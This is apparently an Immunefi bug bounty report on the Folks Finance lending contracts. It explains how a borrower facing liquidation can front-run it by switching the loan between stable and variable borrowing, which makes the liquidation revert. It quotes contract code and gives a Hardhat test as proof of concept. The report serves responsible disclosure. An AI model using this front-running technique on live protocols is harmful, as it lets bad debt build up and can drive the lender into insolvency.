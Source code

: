 # Boost \_ Folks Finance 33670 - \[Smart Contract - Insight] Violator can deny his liquidation by front running it and changing the loan borrow type

Submitted on Fri Jul 26 2024 03:25:51 GMT-0400 (Atlantic Standard Time) by @zarkk for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33670

Report type: Smart Contract

Report severity: Insight

Target: https://testnet.snowtrace.io/address/0x2cAa1315bd676FbecABFC3195000c642f503f1C9

Impacts:

* Protocol insolvency

## Description

## Brief/Intro

Any violator with under-collateralized loan can front run his liquidation and change borrow type (from stable to variable and vice versa) and prevent it from happening for as long as he wants/needs.

## Vulnerability Details

When someone creates a loan, he has to specify whether he wants to borrow with stable or variable terms by setting the `stableInterestRate` accordingly (0 for variable, >0 for stable). In the same way, if this loan becomes under-collateralized and liquidatable, the liquidator has to has a loan of the same borrow type (variable/stable), so the debt of the violator to be transferred to him. We can see this check in `prepareLiquidation()` function of `LiquidationLogic` library here :

```solidity
function prepareLiquidation(
        // ...
    ) external returns (DataTypes.LoanLiquidityParams memory violatorLiquidity) {
        // ...

        // if applicable, check borrows are compatible
        LoanManagerState.UserLoanBorrow storage violatorLoanBorrow = violatorLoan.borrows[borrPoolId];
        LoanManagerState.UserLoanBorrow storage liquidatorLoanBorrow = liquidatorLoan.borrows[borrPoolId];
        bool isViolatorStableBorrow = violatorLoanBorrow.stableInterestRate > 0;
        bool isLiquidatorStableBorrow = liquidatorLoanBorrow.stableInterestRate > 0;
@>        if (liquidatorLoanBorrow.amount > 0 && isViolatorStableBorrow != isLiquidatorStableBorrow)
            revert BorrowTypeMismatch(loansParams.violatorLoanId, loansParams.liquidatorLoanId, borrPoolId);

        // ....
    }
```

Also, Folks protocol provides the functionality to any borrower to change his borrow type for his loan by calling the `switchBorrowType` function in `Hub` contract and change from stable to variable borrowing and vice versa. We can this here :

```solidity
function _receiveMessage(Messages.MessageReceived memory message) internal override {
        Messages.MessagePayload memory payload = Messages.decodeActionPayload(message.payload);
       
        /// ...

        // switch on payload action
        uint256 index = 0;
        if (payload.action == Messages.Action.CreateAccount) {
            // ...
        } else if (payload.action == Messages.Action.SwitchBorrowType) {
            bytes32 loanId = payload.data.toBytes32(index);
            index += 32;
            uint8 poolId = payload.data.toUint8(index);
            index += 1;
            uint256 maxStableRate = payload.data.toUint256(index);

@>            loanManager.switchBorrowType(loanId, payload.accountId, poolId, maxStableRate);
        } else {
            revert CannotReceiveMessage(message.messageId);
        }

        // ...

        }
    }
```

The vulnerability arises from the fact that there is no check in the whole `switchBorrowType` flow that checks if the specific loan is under-collateralized.

This opens the door for a critical vulnerability where a violator with an under-collateralized loan can "toggle" from stable to variable type calling `switchBorrowType`, every time someone tries to liquidate him. As a result of front running his liquidation and switching borrow type, the validator can assure that he will never be liquidated, since his liquidation will revert on the `BorrowTypeMismatch` which was shown at the start of the report.

## Impact Details

This vulnerability poses a critical risk to the protocol's financial health by allowing the accumulation of bad debt. As under-collateralized loans remain open and potentially worsen without the possibility of liquidation, the protocol could amass significant uncollectable debt. Over time, this accumulation of bad debt could exceed the protocol's available assets, leading to insolvency.

## References

https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/Hub.sol#L277 https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/logic/LiquidationLogic.sol#L127

## Proof of concept

## Proof of Concept

Add this test in `LoanManager.test.ts` under `Liquidate` section and run `npm run test` :

```solidity
it.only("Should fail to liquidate because borrower changed the borrow type just before the liquidation", async () => {
      const {
        hub,
        loanManager,
        loanManagerAddress,
        oracleManager,
        pools,
        loanId: violatorLoanId,
        accountId,
        loanTypeId,
      } = await loadFixture(depositEtherAndVariableBorrowUSDCFixture);

      // Create Liquidator loan which will be Variable borrow type
      const liquidatorLoanId = getRandomBytes(BYTES32_LENGTH);
      const liquidatorAccountId = getAccountIdBytes("LIQUIDATOR_ACCOUNT_ID");
      const liquidatorLoanName = getRandomBytes(BYTES32_LENGTH);
      await loanManager
        .connect(hub)
        .createUserLoan(liquidatorLoanId, liquidatorAccountId, loanTypeId, liquidatorLoanName);

      // Deposit USDC in the Liquidator loan.
      const liquidatorDepositAmount = BigInt(1000e6);
      const liquidatorDepositFAmount = liquidatorDepositAmount;
      const liquidatorDepositInterestIndex = BigInt(1e18);
      const usdcPrice = BigInt(1e18);
      await pools.USDC.pool.setDepositPoolParams({
        fAmount: liquidatorDepositFAmount,
        depositInterestIndex: liquidatorDepositInterestIndex,
        priceFeed: { price: usdcPrice, decimals: pools.USDC.tokenDecimals },
      });
      await loanManager
        .connect(hub)
        .deposit(liquidatorLoanId, liquidatorAccountId, pools.USDC.poolId, liquidatorDepositAmount);

      // Borrow USDC in liquidator loan.
      const oldLiquidatorVariableInterestIndex = BigInt(1.1e18);
      const stableInterestRate = BigInt(0.1e18);
      await pools.USDC.pool.setBorrowPoolParams({
        variableInterestIndex: oldLiquidatorVariableInterestIndex,
        stableInterestRate,
      });
      const liquidatorBorrowAmount = BigInt(50e6);
      await loanManager
        .connect(hub)
        // We passing stableInterestRate : 0, so BorrowType is VariableBorrow so to match the BorrowType of the ViolatorLoan.
        .borrow(liquidatorLoanId, liquidatorAccountId, pools.USDC.poolId, liquidatorBorrowAmount, 0);

      // Prepare for liquidation
      const ethNodeOutputData = getNodeOutputData(BigInt(1000e18));
      await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData);

      // But violator front-runned the liquidator and changed his BorrowType from Variable to Stable so to revert the liquidation.
      const switchBorrowType = await loanManager
        .connect(hub)
        .switchBorrowType(violatorLoanId, accountId, pools.USDC.poolId, BigInt(0.1e18));

      // Trying to liquidate.
      const repayAmount = BigInt(1);
      const minSeizedAmount = BigInt(0);
      const liquidate = loanManager
        .connect(hub)
        .liquidate(
          violatorLoanId,
          liquidatorLoanId,
          liquidatorAccountId,
          pools.ETH.poolId,
          pools.USDC.poolId,
          repayAmount,
          minSeizedAmount
        );
      const liquidationLogic = await ethers.getContractAt("LiquidationLogic", loanManagerAddress);
      await expect(liquidate)
        .to.be.revertedWithCustomError(liquidationLogic, "BorrowTypeMismatch")
        .withArgs(violatorLoanId, liquidatorLoanId, pools.USDC.poolId);
    });
```

